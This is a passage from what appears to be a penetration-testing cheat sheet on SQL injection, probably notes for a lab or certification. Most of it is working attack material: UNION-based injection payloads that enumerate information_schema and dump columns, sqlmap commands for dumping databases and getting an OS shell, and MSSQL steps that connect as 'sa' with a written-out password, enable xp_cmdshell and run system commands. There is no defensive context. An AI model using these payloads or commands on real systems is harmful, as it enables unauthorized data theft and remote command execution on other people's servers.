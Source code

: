      - ```artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 1,1```
   - Get the rest of the table names
6. Retrieve columns names
   - ```artist=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='<TABLE>'```
7. Get data out of the columns
   - ```artist=-1 union select 1,group_concat(<COLUMN>),3 from <TABLE>```

### SQLmap
- Use the ```--batch``` command to default answer the questions
- Use the ```--wizzard``` flag for easy mode
- Use the ```--os-shell``` flag for easy shell

```
sqlmap -r <BURP REQUEST>
sqlmap -r <BURP REQUEST> --banner
sqlmap -r <BURP REQUEST> --dbs
sqlmap -r <BURP REQUEST> --D <DATABASE> --tables
sqlmap -r <BURP REQUEST> --D <DATABASE> -T <TABLE> --columns
sqlmap -r <BURP REQUEST> --D <DATABASE> -T <TABLE> -C <COLUMN>,<COLUMN> --dump
sqlmap -r <BURP REQUEST> --dump
sqlmap -r 
```

### MYSQL Commands
```
show grants;
show variables;
show databases;
use <DATABASE>;
show tables;
describe <TABLE>;
SELECT * FROM <TABLE>;
```

### MSSQL
#### Mssql connect
```
mssql-cli -S 10.11.1.31 -U sa -P 'poiuytrewq'
```

#### Enable XP_Cmdshell
```
EXECUTE sp_configure 'show advanced options', 1;  
RECONFIGURE;  
EXECUTE sp_configure 'xp_cmdshell', 1;  
RECONFIGURE; 
```

#### Execute commands
```
xp_cmdshell 'whoami'
```
